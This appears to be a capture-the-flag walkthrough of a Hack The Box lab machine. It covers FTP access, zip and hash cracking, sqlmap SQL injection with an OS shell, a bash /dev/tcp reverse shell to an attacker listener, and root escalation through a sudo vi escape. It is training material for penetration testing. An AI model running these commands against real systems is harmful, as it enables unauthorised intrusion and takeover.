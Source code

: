 New machine vaccine 

	First, let’s start the machine first and connect starting point server to local machine, if you are using HTB parrot machine then you don’t need to connect it.

Machine is boot up let’s enumerate the machine. 

First tart with nmap to find open port.
	Suod nmap -sC -sV 10.129.88.89 

![image](https://user-images.githubusercontent.com/49148722/212783373-47721b0e-3cd2-43fd-aaaa-090505a33563.png) 


Here we can see there are three ports open. We don’t have any credential for SSH. So lets go for FTP bus using anonymous user.

![image](https://user-images.githubusercontent.com/49148722/212783406-58e79f87-fc72-42fa-a7c6-704b2b5acf79.png)


As we can see there is one file is stored in ftp server, let’s get that file into our machine and see wat it contains.

I tried to unzip file, but it contains password.

![image](https://user-images.githubusercontent.com/49148722/212783418-08abb36d-54fe-4264-aeaf-9710a54f030d.png)


To crack the password, we can use john the ripper which is the best tool for password guessing.
In order to crack password successfully we need to convert zip into hash. For that we will use ziptojohn.

Now, we will type following command. 
John rockyou.txt zip.hashes

 


As we can see we crack password successfully 741852963
 

Unzip file by using the password.

![image](https://user-images.githubusercontent.com/49148722/212783442-01cad596-7d9d-4323-92a1-ca02a9c280d1.png)


Now we will read index.php file first.

![image](https://user-images.githubusercontent.com/49148722/212783448-51ee214f-eaa2-474e-a7d0-e0c8bd4e1ba7.png)


We can see the credentials of admin: 2cb42f8734ea607eefed3b70af13bbd3. Which might be able to use. Let’s creak hash first and see what it contains.

![image](https://user-images.githubusercontent.com/49148722/212783464-0d28801a-8e8e-4ddd-8914-c8163d972357.png)

We can use online tool to crack hash.

As we got plain password qwerty789.

Now we will go to web browser and login by using this password.

![image](https://user-images.githubusercontent.com/49148722/212783471-bda4c8b4-51f0-4170-94ba-9dea0c53c25c.png)


We login successfully. As we see here dashboard doesn’t contain anything.

![image](https://user-images.githubusercontent.com/49148722/212783479-f62062c3-62e3-40e0-8cfb-b6a46f25a768.png)


By passing the query in search box. It seems sql injectable. So let use sqlmap to test it.

![image](https://user-images.githubusercontent.com/49148722/212783493-6ab4b100-8763-4646-bbc6-74883031a8fc.png)


First grep cookies and set into sqlmap.

![image](https://user-images.githubusercontent.com/49148722/212783500-721954c1-d3eb-46d9-af58-614e199e438d.png)



Here is the syntax for sqlmap : sqlmap “http://10.129.69.231/dashboard.php?search=1” --cookie="PHPSESSID=3r6efmf03uuo8cm2cqt47ddmq7" --batch

![image](https://user-images.githubusercontent.com/49148722/212783515-55f4ba20-1eb0-4ac1-ba3c-32cda0b2a93b.png)
 

The tool confirmed that the target is vulnerable to SQL injection, which is everything we needed to know. We will run the sqlmap once more, where we are going to provide the --os-shell flag, where we will be able to perform command injection:

![image](https://user-images.githubusercontent.com/49148722/212783522-20a039bb-d6ae-4c32-b7c8-4fd69fc9e808.png)

 

We got the shell; it is not stable. 
We will run the following command to establish connection with our local machine. But first we need to start listener port by using net cat.

Nc -lvnp 443

![image](https://user-images.githubusercontent.com/49148722/212783530-339b7217-70a6-45ef-8e2d-7ab4721c6b2b.png)


On the other hand, write a bash comment to establish connection.
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"

![image](https://user-images.githubusercontent.com/49148722/212783547-8b9b6ffe-e886-41a4-bfd3-047bd246144f.png)

 
As we can see here connection has establish.

![image](https://user-images.githubusercontent.com/49148722/212783561-a52ea866-02bd-4740-88aa-5e82523d6035.png)

 

Let’s find user.txt

![image](https://user-images.githubusercontent.com/49148722/212783570-75a5b5d8-204d-4a50-8fc0-65fed869d523.png)

 

Machin is using php and sql so let’s find in /var/www/html library so we could get any important information.

![image](https://user-images.githubusercontent.com/49148722/212783584-ce00ac61-fdfe-4d4d-ab41-a68d3c194cf6.png)

 

Check each folder, we found  interesting thing in dashboard.php

![image](https://user-images.githubusercontent.com/49148722/212783607-72fe84e0-a449-4fea-b158-efb97912b346.png)

P@s5w0rd!

Now we have password for the ssh server let’s connect with it.

 ![image](https://user-images.githubusercontent.com/49148722/212783624-81f8cb17-8ad0-44be-82c0-4ebd6114d3d2.png)


We will type sudo -l to see what privilege we have.

![image](https://user-images.githubusercontent.com/49148722/212783635-0b302cf7-508a-417d-9a7a-fb8d6bf79b72.png)

 

So we have sudo privilege to edit pg_hba.conf file using vi by running sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

![image](https://user-images.githubusercontent.com/49148722/212783660-4173e568-4adb-4379-b100-37f107c1c3d0.png)

 

We will go to GTFObins to find if we can abuse privilege.
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
	sudo vi -c ':!/bin/sh' /dev/null
	
 ![image](https://user-images.githubusercontent.com/49148722/212783690-0b3a6ddf-5a93-4533-b480-9d164cfb92cf.png)

We are unable to execute command because sudo is restricted.

There’re alternative ways in GTFObins.

vi
:set shell=/bin/sh
:shell
First tyee vi file and then type :set shell=/bin/sh

![image](https://user-images.githubusercontent.com/49148722/212783704-fea40fa5-9a3f-4476-939d-3825f63744af.png)


Then type :shell

![image](https://user-images.githubusercontent.com/49148722/212783717-d091c2fa-5fba-4967-aa50-6ecd5f5eda9c.png)

 

We got root privilege now we are in root directory.

![image](https://user-images.githubusercontent.com/49148722/212783730-ff52260b-9ec3-4836-b21f-7189b2ca00b9.png)


Let’s jump into root directory and find flag

![image](https://user-images.githubusercontent.com/49148722/212783740-d22241a6-97f1-418d-b127-02d1458241fc.png)
